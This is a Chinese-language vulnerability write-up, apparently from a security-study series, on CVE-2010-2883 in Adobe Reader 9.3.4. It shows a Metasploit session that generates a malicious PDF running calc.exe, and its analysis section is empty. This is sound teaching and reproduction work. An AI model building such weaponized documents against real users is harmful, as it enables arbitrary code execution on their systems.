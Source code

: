 # 7.1.8 [CVE-2010-2883] Adobe Reader 9.3.4 Stack Buffer Overflow

- [漏洞描述](#漏洞描述)
- [漏洞复现](#漏洞复现)
- [漏洞分析](#漏洞分析)
- [参考资料](#参考资料)


[下载文件](../src/exploit/7.1.8_adobe_reader_2010-2883)

## 漏洞描述
Adobe Reader 和 Acrobat 9.4 之前版本的 CoolType.dll 中存在基于栈的缓冲区溢出漏洞。远程攻击者可借助带有 TTF 字体的 Smart INdependent Glyphlets (SING) 表格中超长字段的 PDF 文件执行任意代码或者导致拒绝服务。


## 漏洞复现
| |推荐使用的环境 | 备注 |
| --- | --- | --- |
| 操作系统 | Windows XP SP3 | 体系结构：32 位 |
| 调试器 | WinDbg | 版本号：10.0 x86 |
| 漏洞软件 | Adobe Reader | 版本号：9.3.4 |

我们利用 Metasploit 来生成攻击样本：
```
msf > search cve-2010-2883
   Name                                            Disclosure Date  Rank   Description
   ----                                            ---------------  ----   -----------
   exploit/windows/fileformat/adobe_cooltype_sing  2010-09-07       great  Adobe CoolType SING Table "uniqueName" Stack Buffer Overflow

msf > use exploit/windows/fileformat/adobe_cooltype_sing

msf exploit(windows/fileformat/adobe_cooltype_sing) > set payload windows/exec 
payload => windows/exec

msf exploit(windows/fileformat/adobe_cooltype_sing) > set cmd calc.exe
cmd => calc.exe

msf exploit(windows/fileformat/adobe_cooltype_sing) > set filename cve20102883.pdf
filename => cve20102883.pdf

msf exploit(windows/fileformat/adobe_cooltype_sing) > exploit 
[*] Creating 'cve20102883.pdf' file...
[+] cve20102883.pdf stored at /home/firmy/.msf4/local/cve20102883.pdf
```

使用漏洞版本的 Adobe Reader 打开样本，即可弹出计算器：


## 漏洞分析

## 参考资料
- 《漏洞战争》
- https://www.cvedetails.com/cve/CVE-2010-2883/
